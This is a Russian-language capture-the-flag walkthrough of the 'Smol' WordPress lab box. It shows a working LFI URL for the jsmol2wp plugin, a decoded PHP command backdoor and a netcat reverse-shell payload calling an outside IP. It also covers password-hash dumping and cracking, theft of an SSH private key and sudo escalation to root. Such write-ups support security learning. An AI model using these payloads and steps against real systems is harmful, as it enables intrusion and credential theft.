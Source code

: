 
![](../attachment/Pasted%20image%2020250225231859.png)
для доступа к сайту добавим target ip и domain в /etc/hosts

Изучив сайт мы видим что это wordpress и запускаем wpscan

![](../attachment/Pasted%20image%2020250225232047.png)

Из интересного видим jsmol2wp и находим CVE-2018-20463, которое дает нам LFI 
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

![](../attachment/Pasted%20image%2020250225224202.png)
Находим пароля и логин пользователя, заходим в wp-admin и видим приватный пост 

![](../attachment/Pasted%20image%2020250225232310.png)
Читаем  исходный код с помощью найденной LFI и находим упомянутый backdoor
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php

![](../attachment/Pasted%20image%2020250225232424.png)
1. декодирует строку в base64
2. выполняет код с помощью eval
3. выполняет все что передано в cmd
Если мы расшифруем 

```
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
 
 Расшифруем php
<?   
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); }  ?> 
```

Попробуем rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.21.61.35 6653 >/tmp/f

http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.21.61.35%206653%20%3E%2Ftmp%2Ff

![](../attachment/Pasted%20image%2020250225230421.png)
python3 -c 'import pty;pty.spawn("/bin/bash");'

Проверим БД
1. подключаем mysql -u wpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G' -D wordpress
2. Проверяем таблицы show tables;
3. Проверяем колонки в таблице show columns wp_users;
4. запрашиваем пользователей и пароли  select user_login, user_pass from wp_users;
admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1

Сохраняем пользователей и хеши в отдельный файл и запускаем john
![](../attachment/Pasted%20image%2020250225233048.png)

подключение по ssh не удалось, но можем подключиться из существующего шелла.
Получаем первый флаг пользователя
![](../attachment/Pasted%20image%2020250225233246.png)
![](../attachment/Pasted%20image%2020250225233327.png)

diego принадлежит группе internal
![](../attachment/Pasted%20image%2020250225233539.png)
Исследуя папки пользователей находим .ssh у пользователя think, где хранится закрытый ключ

![](../attachment/Pasted%20image%2020250225233626.png)
С помощью ключа подключаемся к пользователю think

![](../attachment/Pasted%20image%2020250225233717.png)
![](../attachment/Pasted%20image%2020250225233731.png)

Исследуя пользователя, находим что он может зайти под gege не используя пароль

![](../attachment/Pasted%20image%2020250225233854.png)
![](../attachment/Pasted%20image%2020250225233911.png)

В папке пользователя находим запароленную старую версию wordpress

![](../attachment/Pasted%20image%2020250225234609.png)

Скачаем архив к себе. 
1. Запустим сервер gege@smol:~$ python3 -m http.server 8080
2. wget http://www.smol.thm:8080/wordpress.old.zip
Получим хеш и расшифруем его 
zip2john wordpress.old.zip > arch_hash.txt
![](../attachment/Pasted%20image%2020250225234758.png)

hashcat -a 0 -m 17225  arch_hash.txt /usr/share/wordlists/rockyou.txt

![](../attachment/Pasted%20image%2020250225235126.png)

Получив пароль и разархивировав старую версию, проверим файл wp-config и получим пароль пользователя xavi

![](../attachment/Pasted%20image%2020250225235228.png)
![](../attachment/Pasted%20image%2020250225235302.png)

пользователь xavi может использовать sudo без пароля
![](../attachment/Pasted%20image%2020250225235745.png)

забираем root флаг

![[../attachment/Pasted image 20250225235847.png]]


